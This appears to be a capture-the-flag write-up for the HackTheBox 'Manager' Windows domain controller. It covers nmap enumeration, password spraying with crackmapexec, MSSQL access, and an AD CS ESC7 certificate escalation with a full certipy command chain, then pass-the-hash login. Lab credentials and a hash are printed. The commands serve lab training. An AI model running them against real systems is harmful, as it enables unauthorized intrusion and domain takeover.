# 1. Enumeration:

```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-22 12:34 EDT
Nmap scan report for manager.htb (10.10.11.236)
Host is up (0.057s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Manager
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-10-22 16:35:47Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Not valid before: 2023-07-30T13:51:28
|_Not valid after:  2024-07-29T13:51:28
|_ssl-date: 2023-10-22T16:37:20+00:00; +1m39s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-22T16:37:20+00:00; +1m39s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Not valid before: 2023-07-30T13:51:28
|_Not valid after:  2024-07-29T13:51:28
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2023-10-22T16:37:20+00:00; +1m39s from scanner time.
| ms-sql-ntlm-info: 
|   10.10.11.236:1433: 
|     Target_Name: MANAGER
|     NetBIOS_Domain_Name: MANAGER
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: manager.htb
|     DNS_Computer_Name: dc01.manager.htb                                                                                                         
|     DNS_Tree_Name: manager.htb                                                                                                                  
|_    Product_Version: 10.0.17763                                                                                                                 
| ms-sql-info: 
|   10.10.11.236:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-10-22T16:09:44
|_Not valid after:  2053-10-22T16:09:44
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Not valid before: 2023-07-30T13:51:28
|_Not valid after:  2024-07-29T13:51:28
|_ssl-date: 2023-10-22T16:37:20+00:00; +1m39s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-22T16:37:20+00:00; +1m39s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Not valid before: 2023-07-30T13:51:28
|_Not valid after:  2024-07-29T13:51:28
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (89%)
Aggressive OS guesses: Microsoft Windows Server 2019 (89%)
No exact OS matches for host (test conditions non-ideal).
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 1m37s, deviation: 1s, median: 1m38s
| smb2-time: 
|   date: 2023-10-22T16:36:40
|_  start_date: N/A

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 98.57 seconds
```

- There are numerous open ports available, but we'll concentrate our attention on SMB, LDAP, web, and MSSQL.

# 2. Foothold

- We'll attempt to brute force the usernames using `crackmapexec`:



```
zhong
cheng
ryan
ravan
jinwoo
chinhae
operator
```

- Following that, let's conduct a Password Spraying attempt using `crackmapexec` as previously described:

```
crackmapexec smb [ IP or Domain ] -u [ users list ] -p [ password list ]
```



- We observe that two users have the capability to authenticate within the SMB. Now, let's switch from SMB to MSSQL to identify those who can successfully log in.

```
crackmapexec mssql [ IP or Domain ] -u [ users list ] -p [ password list ]
```



- Let's try connecting to MSSQL using `impacket`:

```
impacket-mssqlclient -port 1433 manager.htb/operator:operator@10.10.11.236 -window
```



- After entering, I checked the tables but found no data whatsoever. This led me to consider that it might not 
be data, but rather the execution of a process. Consequently, I conducted a search until I came across a command 
that would enable us to explore the directory's structure:

```
EXEC xp_dirtree 'C:\inetpub\wwwroot', 1, 1;
```



- After downloading the backup file, we can find the username and password of user `Raven`:


- Since the target machine is Windows OS, we will use `evil-winrm` to connect to it via `Raven`:

```
evil-winrm -i 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'
```



# 3. Privilege Escalation

- Let's check our privilege:



- We can see that `SeMachineAccountPrivilege` is enabled, so the exploit shouldn't be so hard. Let's upload `Certify.exe` to the machine:



- Run `Certify.exe` using the following command:

```
./Certify.exe find /vulnarable
```


- Once we identify vulnerabilities in the `SubCA` template, we will check Hacktrick for any SubCA-related issues:
  - https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation
  - https://github.com/ly4k/Certipy

- The part related to SubCA is the Vulnerable Certificate Authority Access Control (ESC7), 
which I will use for Attack 2. We can use the commands from Hacktrick in this context.

```
certipy ca -ca 'manager-DC01-CA' -add-officer raven -username 'raven@manager.htb' -password 
'R4v3nBe5tD3veloP3r!123' && certipy ca -ca 'manager-DC01-CA' -enable-template SubCA -username 
'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' && certipy req -username 'raven@manager.htb' 
-password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -template SubCA -upn 
'administrator@manager.htb' && certipy ca -ca 'manager-DC01-CA' -issue-requests 20 -username 
'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' && certipy req -username 'raven@manager.htb' 
-password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -retrieve 20
```



- After obtaining the certificate, we proceed with the authentication process:



- In this step, if encounter an error, we need to adjust the time to match Kerberos by using the following command:



- Once we have the hash, we can employ it with `evil-winrm`, to obtain the root flag:



```
evil-winrm -u administrator -H ae5064c2f62317332c88629e025924ef -i manager.htb
```



### Reference:

- https://7mitu.github.io/2023/10/30/HackTheBox-Manager-WriteUP/
- https://github.com/saoGITo/HTB_Manager/blob/main/HTB_Manager_poc.py